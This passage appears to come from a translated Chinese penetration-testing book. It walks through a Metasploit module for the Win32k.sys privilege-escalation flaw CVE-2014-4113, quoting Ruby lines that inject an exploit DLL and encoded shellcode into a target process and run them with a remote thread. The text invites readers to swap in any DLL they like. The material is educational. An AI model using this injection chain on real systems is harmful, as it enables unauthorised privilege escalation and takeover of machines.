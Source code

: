 ```
    library_path = ::File.join(Msf::Config.data_directory, 'exploits', 'CVE-2014-4113', dll_file_name)
```

```
    library_path = ::File.expand_path(library_path)
```

```
    print_status("Injecting exploit into #{process.pid}...")
```

```
    exploit_mem, offset = inject_dll_into_process(process, library_path)
```

```
    print_status("Exploit injected. Injecting payload into #{process.pid}...")
```

```
    payload_mem = inject_into_process(process, payload.encoded)
```

```
    print_status('Payload injected. Executing exploit...')
```

```
    process.thread.create(exploit_mem + offset, payload_mem)
```

```
    print_good('Exploit finished, wait for (hopefully privileged) payload execution to complete.')
```

```
end
```

让我们一步步地审查这部分，并跳过状态输出：

+   首先是 **if...else** **target.arch.first == ARCH_X86** 语句。这不言自明——模块从 Metasploit **Data\Exploits** 文件夹中提取利用 DLL，这个检查使得架构能够正确地定位目标。

+   **library_path** 允许模块从攻击者的本地磁盘找到并加载利用 DLL。我希望你的创造性思维已经启动，你应该意识到，你可以修改这个模块，将它指向任何你喜欢的 DLL。

+   **exploit_mem, offset = inject_dll_into_process()** 是第一次给目标的耳光。注意，**inject_dll_into_process()** 在包含的 **ReflectiveDLLInjection** 模块中定义。这个方法接受目标进程和 DLL 的本地路径作为参数，然后返回一个包含两个值的数组——分配的内存地址和偏移量。我们的模块将这些返回值分别存储为 **exploit_mem** 和 **offset**。

+   **payload_mem = inject_into_process()** 是第二次给目标的耳光。**payload.encoded** 是我们的 shellcode（根据需要编码）。此方法仅返回一个值——目标进程内存中 shellcode 的位置。所以，如你所见，在我们的攻击的这一阶段，**payload_mem** 现在是目标内存中 shellcode 开始的位置。

+   如果前两种 DLL 注入方法是给目标的耳光，那么 **process.thread.create(exploit_mem + offset, payload_mem)** 就是我们致命的一击。我们向 **process.thread.create()** 传递了两个参数：首先是 **exploit_mem**（加上偏移量），然后是我们在内存中 shellcode 的位置 **payload_mem**。

那么，为什么我们要将 DLL 注入到一个进程中呢？易受攻击的内核模式驱动程序 **Win32k.sys** 有超过 600 个入口点，允许访问其功能；它处理了许多有用的任务。正如本章之前所讨论的，**Win32k.sys** 负责窗口管理。**Win32k.sys** 代表了该操作系统设计中一个必要的邪恶——它所需的强大功能与对用户模式程序的可访问性相结合。

# 使用 Kali 进行实际的内核攻击
